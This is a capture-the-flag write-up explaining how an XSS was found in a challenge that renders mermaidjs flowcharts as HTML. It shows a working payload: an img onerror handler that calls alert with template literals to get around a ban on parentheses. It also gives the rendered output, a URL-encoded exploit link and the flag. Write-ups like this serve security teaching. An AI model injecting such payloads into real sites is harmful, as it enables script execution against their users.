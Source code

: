 ```yaml
---
tags: ["xxs", "mermaidjs"]
---
```

# Challenge
> Fine, I'll use a damn lib. Let's see if it's any better.

This challenge is based on the same setup as marcodowno. Instead of converting markdown, this challenge converts mermaidjs[1] charts to HTML.

# Solution

Let's have a look at the first example on the mermaidjs page and check how it its parsed.

```
graph TD;
    A-->B;
```

This input is parsed using the flowchart parser[2] written in a bison-like language.
A few of the parsing rules look promising:

`textToken` consumes a bunch interesting characters that are dumped as-is into the HTML output: ```<>[]"'`:.-``
Parentheses are not allowed though so we'll have to improvise on the `alert(1)` call:

ES2015 template literals[3] can be used to call functions without using parentheses.
```alert`1` ``` is equivalent to `alert(["1"])` and by string coercion equivalent to `alert('1')`.

Here's the final payload:

```
graph LR;
    X-->Y[Y<img src=x onerror='alert`1`' />];
```

This is the relevant output produced:

```html
<div xmlns="http://www.w3.org/1999/xhtml" style="display: inline-block; white-space: nowrap;">Y<img src="x" onerror="alert`1`"></div>
```

http://marcozuckerbergo-01.play.midnightsunctf.se:3002/markdown?input=%67%72%61%70%68%20%4c%52%3b%0a%20%20%20%20%58%2d%2d%3e%59%5b%59%3c%69%6d%67%20%73%72%63%3d%78%20%6f%6e%65%72%72%6f%72%3d%27%61%6c%65%72%74%60%31%60%27%20%2f%3e%5d%3b

midnight{1_gu3zz_7rust1ng_l1bs_d1dnt_w0rk_3ither:(}

# References
- [1] https://mermaidjs.github.io/
- [2] https://github.com/knsv/mermaid/blob/master/src/diagrams/flowchart/parser/flow.jison
- [3] https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Template_literals

